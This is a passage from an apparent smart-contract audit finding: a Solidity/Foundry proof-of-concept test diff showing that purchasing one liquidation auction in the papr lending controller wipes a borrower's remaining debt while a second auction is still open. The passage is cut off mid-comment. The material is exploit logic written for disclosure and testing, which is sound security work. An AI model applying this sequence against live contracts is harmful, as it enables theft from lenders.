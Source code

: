     +        _loanMaxAndSell();
    +        // borrower now has 2.9... USD
    +        assertGt(underlying.balanceOf(borrower), 2.9e6);
    +
    +        // prepare purchaser
    +        vm.startPrank(purchaser);
    +        safeTransferReceivedArgs.debt = controller.maxDebt(oraclePrice) - 10;
    +        safeTransferReceivedArgs.proceedsTo = purchaser;
    +        safeTransferReceivedArgs.swapParams.minOut = 0;
    +        for (uint i = 0; i < 3; i ++) {
    +            nft.mint(purchaser, 10+i);
    +            nft.safeTransferFrom(purchaser, address(controller), 10+i, abi.encode(safeTransferReceivedArgs));
    +        }
    +        vm.stopPrank();
    +        // purchaser now has 4.4... papr
    +        assertGt(debtToken.balanceOf(purchaser), 4.4e18);
    +
    +        // make max loan liquidatable
    +        vm.warp(block.timestamp + 1 days);
    +        priceKind = ReservoirOracleUnderwriter.PriceKind.TWAP;
    +        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
    +    }
    +
    +    function testPoC() public {
    +        vm.startPrank(purchaser);
    +        debtToken.approve(address(controller), type(uint256).max);
    +
    +        // start auction1, collateralId
    +        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
    +        auction1 = controller.startLiquidationAuction(borrower, collateral, oracleInfo);
    +
    +        // nobody purchage auction1 for some reason(like nft price falling)
    +
    +        // start auction2, collateralId+1
    +        vm.warp(block.timestamp + controller.liquidationAuctionMinSpacing());
    +        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
    +        auction2 = controller.startLiquidationAuction(
    +            borrower, IPaprController.Collateral({id: collateralId+1, addr: nft}),  oracleInfo);
    +
    +        IPaprController.VaultInfo memory info = controller.vaultInfo(borrower, collateral.addr);
    +        assertGt(info.debt, 2.99e18);
    +
    +        // purchase auction1
    +        uint256 beforeBalance = debtToken.balanceOf(borrower);
    +        uint256 price = controller.auctionCurrentPrice(auction1);
    +        uint256 penalty = price * controller.liquidationPenaltyBips() / 1e4;
    +        uint256 reduced = price - penalty;
    +        uint256 shortfall = info.debt - reduced;
    +        // burn penalty
    +        vm.expectEmit(true, true, false, true);
    +        emit Transfer(address(controller), address(0), penalty);
    +        // reduce debt (partial)
    +        vm.expectEmit(true, false, false, true);
    +        emit ReduceDebt(borrower, collateral.addr, reduced);
    +        vm.expectEmit(true, true, false, true);
    +        emit Transfer(address(controller), address(0), reduced);
    +        //!! burning the shortfall debt not covered by auction
    +        vm.expectEmit(true, false, false, true);
    +        emit ReduceDebt(borrower, collateral.addr, shortfall);
    +        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
    +        controller.purchaseLiquidationAuctionNFT(auction1, price, purchaser, oracleInfo);
    +
    +        // reduced: 0.65..